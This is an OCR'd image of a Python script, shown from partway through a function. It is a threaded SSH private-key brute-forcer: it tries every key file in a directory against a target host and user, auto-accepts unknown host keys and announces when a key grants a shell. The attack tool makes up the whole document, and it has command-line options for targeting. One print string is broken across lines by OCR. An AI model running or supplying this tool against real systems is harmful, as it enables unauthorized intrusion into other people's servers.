```py
        perm_denied = 'Permission denied'
        ssh_newkey = 'Are you sure you want to continue'
        conn_closed = 'Connection closed by remote host'
        opt = ' -o PasswordAuthentication=no'
        connStr = 'ssh ' + user + '@' + host + ' -i ' + keyfile + opt
        child = pexpect.spawn(connStr)
        ret = child.expect([pexpect.TIMEOUT, perm_denied,
        ssh_newkey, conn_closed, '$', '#', ])
        if ret == 2:
            print('[-] Adding Host to ∼/.ssh/known_hosts')
            child.sendline('yes')
            connect(user, host, keyfile, False)
        elif ret == 3:
            print('[-] Connection Closed By Remote Host')
            Fails += 1
        elif ret > 3:
            print('[+] Success. ' + str(keyfile))
            Stop = True
    finally:
        if release:
            connection_lock.release()
def main():
    parser = optparse.OptionParser('usage%prog -H <target host> -u <user> -d <directory>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-d', dest='passDir', type='string', help='specify directory with keys')
    parser.add_option('-u', dest='user', type='string', help='specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passDir = options.passDir
    user = options.user
    if host == None or passDir == None or user == None:
        print(parser.usage)
        exit(0)
    for filename in os.listdir(passDir):
        if Stop:
            print('[*] Exiting: Key Found.')
            exit(0)
        if Fails > 5:
            print('[!] Exiting: Too Many Connections Closed By
            Remote Host.')
            print('[!] Adjust number of simultaneous threads.')
            exit(0)
        connection_lock.acquire()
        fullpath = os.path.join(passDir, filename)
        print('[-] Testing keyfile ' + str(fullpath))
        t = threading.Thread(target=connect, args=(user, host, fullpath, True))
        t.start()
if __name__ == '__main__':
    main() 
```
